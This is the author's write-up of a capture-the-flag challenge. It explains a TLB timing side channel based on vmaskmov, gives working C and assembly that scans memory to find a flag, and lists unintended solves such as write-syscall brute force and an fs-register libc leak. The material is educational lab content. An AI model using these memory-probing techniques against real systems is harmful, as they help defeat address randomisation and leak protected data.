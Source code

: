 
<Page>

# Provided files
- chal.c
- chal
- Dockerfile

# Intended

The papers provided in the description implement two different attack that use the same premise.

On x64 processors, physical memory is mapped to virtual memory using a page table. The page table specifies how physical memory is mapped to virtual memory and stores the page permission bits and other information.

See more about paging [here](https://wiki.osdev.org/Paging#64-Bit_Paging).

When a virtual memory address is accessed, the processor must walk the page table in order to determine the physical address to access, which takes some time in order to perform. The processor employs a translation lookaside buffer (TLB) to aggressively cache recent virtual to physical memory mappings to reduce the performance impact of translating virtual to physical addresses. However one can perform a sidechannel attack against the TLB by accessing memory and timing how long it takes to access. A fast access indicates the address is cached in the TLB, and a slow access indicates the address is not cached in the TLB. The problem with this is that one cannot go around arbitrarily accessing every memory address, as you will eventually run into a SEGFAULT and die. You can setup a SIGSEGV handler to catch the crash, but that messes up the timings because control first hands over to the kernel and then the signal handler. Fortunately there are a few instructions that do not fault when accessing an address, and still generate a memory lookup and TLB access. These instructions are `vmaskmov` (first paper) and `prefetch` (second paper) family of instructions.

[vmaskmov](https://www.felixcloutier.com/x86/vmaskmov)

[prefetch](https://www.felixcloutier.com/x86/prefetchh)

The documentation for `vmaskmov` states that:

Faults occur only due to mask-bit required memory accesses that caused the faults. Faults will not occur due to referencing any memory location if the corresponding mask bit for that memory location is 0. For example, no faults will be detected if the mask bits are all zero.


Using this our attack looks like this:
```x86asm
vpxor ymm0, ymm0, ymm0
vmaskmovps ymm0, ymm0, ymmword ptr [victim]
mfence
rdtsc
mov rcx, rax
vmaskmovps ymm0, ymm0, ymmword ptr [victim]
mfence
rdtsc
sub rax, rcx
```

1. setup zero mask in ymm0
2. access the victim address, which caches it in the tlb if it is valid
3. use fences to prevent speculative execution from messing with timings
4. time the access of vmaskmovps

Using this we can determine which memory addresses are readable and only access those addresses to look for the flag.

<details>
<summary>**main.c**</summary>
```c
typedef unsigned long long u64;

void putchar (char ch) {
    asm volatile(
        ".intel_syntax noprefix\n"
        "mov eax, 1\n"
        "mov edi, 1\n"
        "mov rsi, %[buf]\n"
        "mov rdx, 1\n"
        "syscall\n"
        ".att_syntax prefix\n"
        :: [buf] "r" (&ch)
        : "rax", "rdi", "rsi", "rdx", "rcx", "r11"
    );
}

void puts (char * s) {
    while (*s != 0) {
        putchar(*s);
        s++;
    }
    putchar('\n');
}

void exit(int code) {
    asm volatile(
        "mov $60, %%eax\n"
        "syscall\n"
        :: [code] "rdi" (code)
    );
}

int probe(void * addr) {
    u64 tic_hi, tic_lo, toc_hi, toc_lo;
    asm volatile(
        ".intel_syntax noprefix\n"
        "vpxor ymm0, ymm0, ymm0\n"
        "vmaskmovps ymm0, ymm0, ymmword ptr [%[ptr]]\n"
        "mfence\n"
        "rdtsc\n"
        "mov %[hi], rdx\n"
        "mov %[lo], rax\n"
        "mfence\n"
        "vmaskmovps ymm0, ymm0, ymmword ptr [%[ptr]]\n"
        "mfence\n"
        "rdtsc\n"
        "mov %[thi], rdx\n"
        "mov %[tlo], rax\n"
        ".att_syntax prefix\n"
        : [hi] "=r" (tic_hi),
          [lo] "=r" (tic_lo),
          [thi] "=r" (toc_hi),
          [tlo] "=r" (toc_lo)
        : [ptr] "r" (addr)
        : "ymm0", "rdx", "rax"
    );
    return ((toc_hi << 32) + toc_lo) - ((tic_hi << 32) + tic_lo);
}

// we put the main function into the `.entry` section
// and use custom linker script in order to guarantee
// main is run first in the flat binary
void __attribute__((section(".entry"))) main () {
    u64 base = 0x1337000;

    while (base < 0x1337000 + 0x100000000) {
        int access = probe(base);
        if (access < 140) {
            puts("FOUND");
            puts((char *)base);
            putchar('\n');
        }
        base += 0x1000;
    }
}
```
</details>

<details>
<summary>**linker.ld**</summary>
```text
ENTRY(main)

SECTIONS {
    /* here we place `.entry` as the first section */
    .entry  : { *(.entry) }
    /* . = .; forces the linker to keep ordering */
    . = .;
    .text   : { *(.text.*) }
    .rodata : { *(.rodata.*) }
    .data   : { *(.data.*) }
    .bss    : { *(.bss.*) }
}
```
</details>

<details>
<summary>**Makefile**</summary>
```make
all:
	gcc \
	-o main \
	-nostdlib -nostartfiles -nostdinc \
	-fno-builtin -fno-stack-protector \
	-ffreestanding -pie \
	-Wl,--oformat=binary -Wl,-T,linker.ld \
	main.c
```
</details>

# Unintended

## Accidentally compiled with -no-pie
I copypasted my build script from another chal that used `-no-pie`, so the binary base was fixed and you could leak the libc to retrieve the stack address. Once you know where the stack is you could retrieve the flag address.

## Bruteforce
The `write` syscall does not complain about being fed invalid memory address, and simply returns an error. One person simply called write on every memory address starting from `0x1337000` at `0x1000` increments.

## Syscall oracle
It is also possible to test whether or not an address is readable via the write syscall, can write on each address and inspect the return value. If the value indicates an error, unmapped address, otherwise should be readable.

## Cheese
Another person simply called `write` with a base of `0x1337000` and a length of `0x1000000` and it prints out the flag. Apparently write simply skips the unmapped regions and only prints the mapped regions ???

## Fs register
The libc stores a pointer to thread local storage (TLS) in the fs register. The TLS section exists at a fixed offset from the libc, so accessing this register gives a libc leak, then you can walk the stack and get the flag. You can view the fs register in gdb with `p $fs_base`.

## Reading the urandom value
I stored the urandom value inside a mmapped chunk so that I could unmap it later and make it unaccessible. But I forgot to unmap it :skull:. You could retrieve the address through bruteforce or via the stack. Somebody submitted a ticket where they used a constant offset from the mmapped code to access the urandom value, but I could not reproduce on remote.

</Page>